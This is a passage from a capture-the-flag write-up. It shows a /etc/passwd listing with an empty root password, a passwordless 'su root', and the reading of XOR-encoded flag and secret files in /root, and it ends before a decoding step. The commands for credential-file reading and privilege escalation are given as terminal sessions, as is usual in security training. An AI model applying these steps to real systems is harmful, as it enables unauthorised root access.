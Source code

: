```
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
Debian-exim:x:101:103::/var/spool/exim4:/usr/sbin/nologin
[REDACTED]:x:1000:1000::/home/[REDACTED]:/bin/bash
F30s:x:1001:1001::/home/F30s:/bin/bash
root::0:0:root:/root:/bin/sh
```

Now I simply type `su root` without any password required and become root user:

```
[REDACTED]@482cbf2305ae:/home/F30s$ su root
su root
whoami;id;pwd
root
uid=0(root) gid=0(root) groups=0(root)
/home/F30s
```

### Get 2nd flag

Navigate to the `/root` directory and get 2 files:

```
root@482cbf2305ae:/home/F30s# cd /root
cd /root
root@482cbf2305ae:~# ls -l
ls -l
total 8
-rwx------ 1 root root 100 May 19  2023 flag2.txt
-rw-r----- 1 root root  17 May 19  2023 secret.txt
```

secret.txt

```
root@482cbf2305ae:~# cat secret.txt
cat secret.txt
b'C^_M@__DC\\7,'
```

flag2.txt

```
root@482cbf2305ae:~# cat flag2.txt
cat flag2.txt
b'ey}BQB_^[\\ZEnw\x01uWoY~aF\x0fiRdbum\x04BUn\x06[\x02CHonZ\x03~or\x03UT\x00_\x03]mD\x00W\x02gpScL'
```

From the `/secret-tip.txt` I found earlier, the last line was “_Don't forget it's always about root!_” → I try to re-use the previous decode Python script within `pwn.xor`, modify the key as `root` and replace the cipher with the content of `secret.txt`:
